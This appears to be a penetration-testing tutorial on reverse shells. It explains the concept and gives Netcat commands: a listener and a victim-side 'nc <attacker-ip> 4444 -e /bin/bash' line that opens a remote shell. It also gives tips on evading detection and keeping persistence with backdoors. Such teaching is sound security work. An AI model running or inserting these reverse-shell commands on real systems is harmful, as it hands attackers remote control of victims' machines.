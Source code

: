 Reverse Shell: A Pentester's Guide
Introduction

A reverse shell is a type of shell where the target machine opens a connection to the attacker's machine, providing the attacker with remote access. It is commonly used during penetration testing or ethical hacking to gain control over a target system. The reverse shell allows attackers to bypass firewalls or network restrictions that might block incoming connections, giving them access to a system from anywhere.
What is a Reverse Shell?

A reverse shell is a network communication channel that allows an attacker to gain access to a victim's machine. Instead of the attacker connecting directly to the victim (as in a traditional shell), the victim machine connects back to the attacker's machine. This is useful when a victim is behind a firewall or router that blocks incoming traffic.

When the reverse shell is executed on the victim's machine, it attempts to initiate a connection to a remote server (the attacker's machine). Once the connection is established, the attacker has full access to the victim's system.
Common Use Cases

    Penetration Testing: Reverse shells are commonly used in red team exercises to simulate real-world attacks and test the resilience of a network.
    Bypassing Firewalls: Reverse shells help attackers bypass firewall or NAT restrictions that might block inbound connections.
    Remote Administration: Attackers can maintain persistent access to compromised machines for data exfiltration, command execution, or further exploitation.

How Reverse Shell Works

    Victim Executes Malicious Code: The attacker convinces the victim to execute a piece of code that launches the reverse shell. This could be achieved via social engineering, exploiting vulnerabilities, or compromising software.

    Victim Connects Back to Attacker: Upon execution, the victim’s machine attempts to connect to a specified IP address and port (the attacker's machine).

    Attacker Gains Access: Once the connection is made, the attacker can issue commands on the victim’s machine, essentially taking control of it remotely.

Netcat: The Swiss Army Knife of Pentesters

Netcat (nc) is a simple yet powerful networking tool used in various security assessments. Often referred to as the "Swiss Army knife" of networking, it can be used for tasks like port scanning, banner grabbing, transferring files, and, importantly, creating reverse shells.
Netcat Usage for Reverse Shells

Setting up a Reverse Shell Listener:

On the attacker's machine, use Netcat to listen on a specific port for incoming connections from the victim machine:

nc -lvnp <port>

Where:

    -l: Listen mode.
    -v: Verbose output.
    -n: Numeric-only IP addresses (no DNS).
    -p: Specify the port.

For example:

nc -lvnp 4444

This will start listening for incoming connections on port 4444.

Victim's Machine (Sending the Reverse Shell):

On the victim's machine, use Netcat to create a reverse connection back to the attacker's machine:

nc <attacker-ip> <port> -e /bin/bash

Where:

    <attacker-ip> is the IP address of the attacker's machine.
    <port> is the port number where the attacker is listening.
    -e /bin/bash: Executes /bin/bash upon connecting, giving a shell.

For example:

nc 192.168.1.10 4444 -e /bin/bash

Once the victim executes this command, a connection is established, and the attacker has access to the victim's shell.
Common Variants of Reverse Shells

    TCP Reverse Shell: This is the most common reverse shell, where a direct TCP connection is made.
    UDP Reverse Shell: Similar to the TCP version but uses UDP instead of TCP.
    SSL/TLS Encrypted Reverse Shell: A reverse shell over SSL/TLS to secure the connection and avoid detection by security monitoring systems.

How to Use Reverse Shells Effectively in Penetration Testing

    Preparation:
        Understand the target network, firewall policies, and restrictions.
        Choose the right payload and tools that will work with the target's defenses.

    Initiating Reverse Shell:
        Generate or craft the reverse shell payload using tools like msfvenom, Netcat, or others.
        Make sure the reverse shell's port is open and reachable from the target machine.

    Listener Setup:
        Set up a listener on your machine to catch the reverse shell connection using tools like Netcat or Metasploit.

    Post-Exploitation:
        After gaining access, gather information (e.g., network details, user credentials) or maintain persistence for future access.
        Be sure to follow ethical guidelines and report any vulnerabilities to the relevant parties.

Best Practices and Considerations

    Legality: Always ensure that you have explicit permission to use reverse shells during a penetration test. Unauthorized access to systems is illegal.
    Stealth: If you're testing for real-world exploitation, consider using encryption or tunneling to avoid detection by firewalls, intrusion detection systems (IDS), or antivirus software.
    Persistence: Plan for maintaining access by deploying backdoors or web shells.
    Network Cleanup: After testing, ensure you clean up any backdoors or reverse shells to avoid leaving vulnerabilities open for attackers.

Conclusion

A reverse shell is a critical tool for any penetration tester or ethical hacker, helping simulate attacks and bypass network restrictions. Netcat, with its versatility, is often the tool of choice for setting up reverse shells in a penetration testing scenario. While powerful, reverse shells should be used responsibly and only in authorized environments for legal and ethical purposes.
References

    
